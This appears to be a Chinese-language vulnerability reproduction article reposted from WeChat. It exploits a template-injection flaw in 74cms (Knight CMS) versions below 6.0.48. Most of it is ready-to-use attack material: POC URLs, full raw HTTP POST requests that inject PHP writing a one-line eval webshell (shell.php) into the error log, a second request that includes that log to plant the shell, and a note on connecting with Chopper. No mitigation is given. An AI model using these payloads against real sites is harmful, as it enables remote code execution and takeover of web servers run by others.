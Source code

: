 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/erBzIapx1bz8f1ArWwwBwQ)

**00X1 测试环境**  

骑士 CMS 6.0.48以下均存在此漏洞，本文复现使用骑士cms 6.0.20，下载地址：  

```
http://www.74cms.com/download/index.html
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNb01dKhc9HHiaQyFCaEGEDVNLTAiar4EceJ06LicibMfuAH50DzoiaZjWiamzjrToR6DaYUWwINMD5xae6w/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

注意骑士cms不支持php7.x，复现php环境为php5.6。安装包下载完毕后直接在phpstudy下，访问upload/install.php进行安装，根据提示逐步安装即可。  

![图片](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNb01dKhc9HHiaQyFCaEGEDVNv5nMuHheOI0jic8ibeUVmia6SOPxghMiajBoqW4MZzC3uJImznlZOwamiaQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

* * *

**00X2 漏洞复现**

**1.模板注入写入文件，POC**  

```
`http://192.168.23.128/74cms_v6.0.20/upload/index.php?m=home&a=assign_resume_tpl``POST:``variable=1&tpl=<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST[x]);?>")?>; ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

请求包：  

```
`POST /74cms_v6.0.20/upload/index.php?m=home&a=assign_resume_tpl HTTP/1.1``Host: 192.168.23.128``Content-Length: 155``Cache-Control: max-age=0``Upgrade-Insecure-Requests: 1``Origin: http://192.168.23.128``Content-Type: application/x-www-form-urlencoded``User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36``Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9``Referer: http://192.168.23.128/74cms_v6.0.20/upload/index.php?m=home&a=assign_resume_tpl``Accept-Encoding: gzip, deflate``Accept-Language: zh-CN,zh;q=0.9,vi;q=0.8,id;q=0.7``Cookie: PHPSESSID=ktl5a9hhct39p0vsnh7pjc2nhn; think_language=zh-CN; think_template=default``Connection: close``variable=1&tpl=<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST[x]);?>")?>; ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>`
```

根据报错，发现日志已经记录了错误，日志物理路径：  

```
\phpstudy_pro\WWW\data\Runtime\Logs\Home
```

日志文件名根据日期命名：  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**2.包含日志文件getshell**

poc：

```
`http://192.168.23.128/74cms_v6.0.20/upload/index.php?m=home&a=assign_resume_tpl``POST:``variable=1&tpl=data/Runtime/Logs/Home/20_12_14.log`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

请求包：  

```
`POST /74cms_v6.0.20/upload/index.php?m=home&a=assign_resume_tpl HTTP/1.1``Host: 192.168.23.128``Content-Length: 58``Cache-Control: max-age=0``Upgrade-Insecure-Requests: 1``Origin: http://192.168.23.128``Content-Type: application/x-www-form-urlencoded``User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36``Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9``Referer: http://192.168.23.128/74cms_v6.0.20/upload/index.php?m=home&a=assign_resume_tpl``Accept-Encoding: gzip, deflate``Accept-Language: zh-CN,zh;q=0.9,vi;q=0.8,id;q=0.7``Cookie: PHPSESSID=ktl5a9hhct39p0vsnh7pjc2nhn; think_language=zh-CN; think_template=default``Connection: close``variable=1&tpl=data%2FRuntime%2FLogs%2FHome%2F20_12_14.log`
```

包含文件的内容为：  

```
<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST[x]);?>")?>
```

在根目录下写入shell.php文件，内容为一句话木马，包含成功：  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

菜刀连接：  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

以上：

```
`# shell写入日志``http://192.168.23.128/74cms_v6.0.20/upload/index.php?m=home&a=assign_resume_tpl``POST:``variable=1&tpl=<?php fputs(fopen("shell.php","w"),"<?php eval(\$_POST[x]);?>")?>; ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>``# 包含写shell``http://192.168.23.128/74cms_v6.0.20/upload/index.php?m=home&a=assign_resume_tpl``POST:``variable=1&tpl=data/Runtime/Logs/Home/20_12_14.log``# poc来源：``https://mp.weixin.qq.com/s/4-36O4OaWxu2jX2pzb5_Wg`
```

参考链接：  

https://xz.aliyun.com/t/8596#toc-6

https://mp.weixin.qq.com/s/4-36O4OaWxu2jX2pzb5_Wg

* * *

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)